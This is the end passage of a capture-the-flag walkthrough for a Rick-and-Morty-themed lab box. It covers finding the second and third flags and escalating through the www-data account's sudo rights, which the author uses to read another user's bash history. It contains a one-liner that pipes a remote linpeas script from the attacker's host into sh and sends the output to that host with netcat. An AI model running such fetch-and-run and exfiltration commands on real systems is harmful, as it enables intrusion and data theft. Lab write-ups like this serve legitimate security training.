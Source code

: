 ```sh
www-data@ip-10-10-212-47:/home/rick$ ls
ls
total 12K
drwxrwxrwx 2 root root 4.0K Feb 10  2019 .
drwxr-xr-x 4 root root 4.0K Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
www-data@ip-10-10-212-47:/home/rick$ cat sec	
cat second\ ingredients 
/SECOND FLAG CUT/
```

Now probably we need to root the box to get the third flag. I'm firing up the `linpeas` using [in-memory execution](https://ethicalme.hashnode.dev/linpeas) with redirecting output to my server.

```
curl 10.XX.XX.XXX/linpeas.sh | sh | nc 10.XX.XX.XXX 9002
```

And bingo:

![pr_sudoer.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1621971099304/6oMowI0mM.png)

You don't always aim for the root itself - you want his permissions, ex. to execute stuff, to enumerate directories. Well, this time simple `www-data` account have these permissions (`www-data` is sudoer). Let's use that.

```sh
www-data@ip-10-10-23-38:/home$ sudo cat ubuntu/.bash_history
sudo cat ubuntu/.bash_history
ll
sudo apt-get install apache2
ls
ls -la
exit
3rd ingredients: /THIRD FLAG CUT/
find / -name php.ini
sudo find / -name php.ini
sudo rm -rf /var/lib/php/session/* 
cat /etc/php/7.0/fpm/php.ini
cat /etc/php/7.0/fpm/php.ini | grep session
cd /var/lib/php/sessions
ls
sudo ls
sudo rm -rf sess_n16aanckg2ifmk12io64o1kfa2
sudo ls
```

# Additional readings

* [linPEAS](https://ethicalme.hashnode.dev/linpeas)
* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
